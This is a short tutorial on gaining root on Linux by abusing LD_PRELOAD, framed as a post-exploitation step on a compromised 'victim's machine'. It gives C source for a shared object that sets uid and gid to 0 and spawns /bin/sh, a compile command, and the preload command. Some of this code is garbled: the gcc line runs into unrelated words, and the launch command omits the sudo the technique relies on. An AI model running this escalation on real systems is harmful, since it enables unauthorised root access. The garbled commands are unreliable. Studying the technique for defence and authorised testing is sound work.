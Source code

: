 LD_PRELOAD is an environment variable that lists shared libraries with functions that override the standard set, just as /etc/ld.so.preload does. These are implemented by the loader /lib/ld-linux.so

Escalation via LD_PRELOAD consists of abusing the Linux preloading functionality by loading a binary that can be run by root, even though we're not, thus escalating our privilege to root.

To exploit such type of vulnerability we need to compromise victim’s machine at once then move to privilege escalation phase. Suppose you successfully login into victim’s machine through ssh now for post exploitation type **sudo -l**

Let’s generate a C-program file inside /tmp directory for example.

```
#include <stdio.h> 
#include <sys/types.h> 
#include <stdlib.h> 

void _init() 
     { unsetenv("LD_PRELOAD"); 
       setgid(0); 
       setuid(0); 
       system("/bin/sh"); 
    }
```
Let's compile the c program as follow:

```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles ls -al shell.so sudo 
```
... and load the c program:
```
LD_PRELOAD=/tmp/shell.so find 
```
then check if we are be given the root privilege as follow:
```
id 
whoami

```
Source: https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/

